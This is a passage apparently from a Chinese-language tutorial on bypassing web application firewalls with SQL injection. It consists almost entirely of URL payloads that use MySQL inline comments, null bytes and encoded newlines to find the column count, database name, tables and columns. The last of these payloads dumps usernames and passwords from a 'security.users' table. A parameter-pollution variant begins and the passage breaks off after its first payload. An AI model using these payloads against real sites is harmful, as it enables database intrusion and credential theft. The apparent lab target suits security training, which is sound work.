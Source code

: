 ```
`#字段数``?id=1/*%00*/%23a%0A/*!/*!order*/+/*%00*/%23a%0A/*!/*!by+3*/--+`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#数字列``?id=-1 union/*%00*/%23a%0A/*!/*!select 1,2,3*/;%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

```
`#数据库``?id=-1+union/*%00*/%23a%0A/*!/*!select 1,database%23%0a(),3*/;%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#表名``?id=-1+union/*%00*/%23a%0A/*!/*!select*/1,group_concat(%23%0atable_name),3 from information_schema.tables where table_schema=0x7365637572697479;%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段名``?id=-1+union/*%00*/%23a%0A/*!/*!select*/1,group_concat(%23%0acolumn_name),3 from information_schema.columns where table_name=0x7573657273;%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#字段内容``?id=-1+union/*%00*/%23a%0A/*!/*!select*/1,group_concat(%23%0a0x7E,username,password),3 from security.users;%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

### **第三种：/**&id=-1%20union%20select%201,2,3%23*/**

  

```
`#字段数：``?id=1/**&id=1%20order by 3%23*/`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
